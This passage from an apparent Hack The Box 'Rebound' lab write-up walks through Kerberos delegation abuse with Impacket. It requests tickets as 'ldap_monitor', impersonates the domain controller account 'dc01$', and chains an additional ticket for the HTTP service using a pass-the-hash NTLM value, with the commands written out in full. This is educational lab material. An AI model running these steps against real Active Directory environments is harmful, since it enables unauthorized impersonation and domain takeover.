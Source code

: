![](/assets/posts/2023-12-31-htb-rebound/rebound_rbcd.bmp)


With the delegated privileges assigned to ldap_monitor, our next move involves acquiring a service ticket from dc01 for the service "browser/dc01.rebound.htb". 


```bash
getTGT.py 'rebound.htb/ldap_monitor:pass' -dc-ip 10.10.11.231

export KRB5CCNAME=ldap_monitor.ccache 

getST.py -spn "browser/dc01.rebound.htb" -impersonate "dc01$" "rebound.htb/ldap_monitor" -k -no-pass -dc-ip 10.10.11.231
```


![](/assets/posts/2023-12-31-htb-rebound/rebound_browser.bmp)


Now armed with the service ticket for "browser/dc01.rebound.htb," our next action is to utilize it to generate an additional ticket for "http/dc01.rebound.htb". 


```bash
export KRB5CCNAME=dc01\$.ccache
getST.py -spn "http/dc01.rebound.htb" -impersonate "dc01$" -additional-ticket "dc01$.ccache" "rebound.htb/delegator$" -hashes aad3b435b51404eeaad3b435b51404ee:f8db61f5fd0643c073cd58ffcc81379f -k -no-pass -dc-ip 10.10.11.231
```


![](/assets/posts/2023-12-31-htb-rebound/rebound_http.bmp)

